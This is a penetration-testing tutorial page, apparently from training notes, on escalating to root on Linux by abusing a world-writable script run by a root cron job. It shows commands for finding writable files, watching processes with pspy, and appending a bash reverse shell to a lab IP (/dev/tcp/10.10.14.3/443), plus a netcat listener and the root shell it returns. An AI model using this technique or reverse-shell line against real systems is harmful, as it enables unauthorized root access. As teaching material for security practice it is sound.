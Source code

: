 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Cron Job Abuse

The `crontab` command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in `/var/spool/cron` for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry `0 */12 * * * /home/admin/backup.sh` would run every 12 hours.

The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs (i.e., a backup script that creates a `.tar.gz` file every 12 hours). In this case, you can append a command onto the end of the script (such as a reverse shell one-liner), and it will execute the next time the cron job runs.

Certain applications create cron files in the `/etc/cron.d` directory and may be misconfigured to allow a non-root user to edit them.

First, let's look around the system for any writeable files or directories. The file `backup.sh` in the `/dmz-backups` directory is interesting and seems like it could be running on a cron job.

{% code title="Command" %}
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
{% endcode %}

{% code title="Example Output" %}
```bash
/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control

<SNIP>
/home/backupsvc/backup.sh

<SNIP>
```
{% endcode %}

A quick look in the `/dmz-backups` directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration. Perhaps the sysadmin meant to specify every three hours like `0 */3 * * *` but instead wrote `*/3 * * * *`, which tells the cron job to run every three minutes. The second issue is that the `backup.sh` shell script is world writeable and runs as root.

{% code title="Command" %}
```bash
ls -la /dmz-backups/
```
{% endcode %}

{% code title="Example Output" %}
```bash
total 36
drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
-rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
-rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz
```
{% endcode %}

## PSPY

We can confirm that a cron job is running using [pspy](https://github.com/DominicBreuker/pspy), a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning [procfs](https://en.wikipedia.org/wiki/Procfs).

Let's run `pspy` and have a look. The `-pf` flag tells the tool to print commands and file system events and `-i 1000` tells it to scan [procfs](https://man7.org/linux/man-pages/man5/procfs.5.html) every 1000ms (or every second).

```bash
./pspy64 -pf -i 1000
```

```bash
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

<SNIP>

2020/09/04 20:45:03 CMD: UID=0    PID=1017   | /usr/sbin/cron -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1010   | /usr/sbin/atd -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1003   | /usr/lib/accountsservice/accounts-daemon 
2020/09/04 20:45:03 CMD: UID=0    PID=1001   | /lib/systemd/systemd-logind 
2020/09/04 20:45:03 CMD: UID=0    PID=10     | 
2020/09/04 20:45:03 CMD: UID=0    PID=1      | /sbin/init 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
```

From the above output, we can see that a cron job runs the `backup.sh` script located in the `/dmz-backups` directory and creating a tarball file of the contents of the `/var/www/html` directory.

We can look at the shell script and append a command to it to attempt to obtain a reverse shell as root. If editing a script, make sure to `ALWAYS` take a copy of the script and/or create a backup of it. We should also attempt to append our commands to the end of the script to still run properly before executing our reverse shell command.

```bash
cat /dmz-backups/backup.sh 
```

```bash
#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

We can see that the script is just taking in a source and destination directory as variables. It then specifies a file name with the current date and time of backup and creates a tarball of the source directory, the web root directory. Let's modify the script to add a [Bash one-liner reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

We modify the script, stand up a local `netcat` listener, and wait. Sure enough, within three minutes, we have a root shell!

```bash
nc -lnvp 443
```

```bash
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
bash: cannot set terminal process group (9143): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id
id
uid=0(root) gid=0(root) groups=0(root)

root@NIX02:~# hostname
hostname
NIX02
```

While not the most common attack, we do find poorly configured cron jobs that can be abused from time to time.
